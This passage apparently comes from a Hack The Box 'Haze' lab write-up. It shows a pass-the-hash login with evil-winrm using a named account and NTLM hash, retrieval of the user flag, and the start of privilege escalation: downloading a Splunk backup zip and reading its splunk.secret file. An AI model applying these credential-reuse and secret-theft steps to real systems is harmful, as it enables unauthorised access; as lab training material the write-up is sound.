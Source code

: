Login using the hash

```bash
evil-winrm -i haze.htb -u 'edward.martin' -H '09e0b3eeb2e7a6b0d419e9ff8f4d91af'
```

![sdf.png](/assets/Images/HTB_Haze/sdf.png)

```bash
type ..\Desktop\user.txt
```

---

## 💀 Privilege Escalation :-

After enumerating we found Splunk directory which has a backup zip file

```bash
cd C:\Backups\Splunk
```

```bash
download C:/Backups/Splunk/splunk_backup_2024-08-06.zip
```

![Screenshot 2025-03-31 at 9.36.29 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_9.36.29_PM.png)

Read the splunk.secret 

```bash
cat etc/auth/splunk.secret
```
